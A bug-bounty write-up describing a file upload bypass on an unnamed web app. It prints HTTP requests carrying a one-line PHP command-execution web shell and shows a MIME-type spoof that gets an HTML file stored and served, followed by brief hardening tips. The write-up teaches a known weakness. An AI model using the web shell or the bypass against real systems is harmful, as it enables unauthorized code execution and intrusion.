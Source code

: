 ```yaml
---
title : The cod caper
description : Updating the mime type of the file leads to file upload vulnerability
slug : the-cod-caper
date : 2024-05-28 00:00:00+0000
image : cover.png
categories :
    - Bug Hunting
    - File upload vulerability
tags :
    - writeup
weight : 1
---
```


## Overview
I was testing an application which is used for `X` purpose. It has a dashboard and you can upload images which get's stored in the same server. 
Lately I have been researching about file upload vulnerabilites while I tried the same bug on the Target's from Hackerone usually they store the file over the s3 bucket or they remove the extension of the file so I was bit confused about How to exploit the web appilication using file upload vulnerability, As a result I started learning over portswigger and completed the file upload module.


## Back to the target

As I logged into the web application there was a dashboard and it has a general setting option.
![Dashboard](dashboard.png)

I have recently updated the profile picture so this time I want to upload a malicious file such as php code.

The request looks something like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 274
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.php"
Content-Type: application/x-php

<?php echo system($_GET["command"]); ?>

-----------------------------25156492452924238624110306810--

```

Notice the **Content-Type: application/x-php** ?

Now see check the response down which I received after sending this request.

```
HTTP/2 500 Internal Server Error
Date: Tue, 28 May 2024 15:24:12 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 44
X-Powered-By: Express
Etag: W/"2c-BUK5kJEdgVBEC0ZxSqwoL+oPm/Y"
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=DaNl%2FKe7pd5G4X57ksNbkdCUiboT%2FmLC%2Fu4KI%2FNo1MuI1Cj9wVuKEX6hr1qv6robRYutAGpk%2BdqMO%2BPqjPHQj1L%2FfxrAG27x95GOly%2BUwURUHH%2BY%2F4Dxhlv8KuQ01D4V%2FQpXSg%3D%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Alt-Svc: h3=":443"; ma=86400
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 88af400ed8a54dce-SIN

{"message":"MimeType or size doesn't match"}
```

## Updating MimeType is like putting a mask 

Notice the **message** ? It sayes **MimeType or size doesn't match**

As I got this message as the response I update the **Content-Type:**
Previously **Content-Type: application/x-php**
Currently  **Content-Type: image/png**
![MimeTypeChange](mime-type-update.png)

I sen't the request and go this beautiful message **{"message":"Profile picture updated"}

After getting this response I checked the dashboard again and it seems like something worng has happend.
![Dashboard](profile-php-loaded.png)

I checked the html code using inspect tool provided by firefox and decoded the url
![htmlCode](html-code-image.png)
![Decode](url-decoder.png)

I visited the decoded url and found out that the server was not running apache server and my php file didn't run instead it got downloaded.
![SadPHPfileGotDownloaded](get-file-php.png)

## Changes are important

Now as the server is not serving php server I decided to go with basic exploitation such as **.html**
I followed the same process as above but this time I uploaded .html file.


The request looks like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 266
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.html"
Content-Type: image/png

<h1>0xtheM7 was here</h1>

-----------------------------25156492452924238624110306810--

```

## Exploit
I sent the requested checked the html code with inspect tool decoded the url and boom .html file was loading without any issue.

![HTMLdeocde](html-url-decode.png)
![HTMLRUN](file-uploaded.png)

And we are able to run our code over the server which opens up the door to run different malicious scripts and eventually get the REC or diiferent bug such as XSS.

### How to make file upload secure
1. Check the extension of the file
2. Check the diamension of the file 
3. Don't file to the server withou checking it

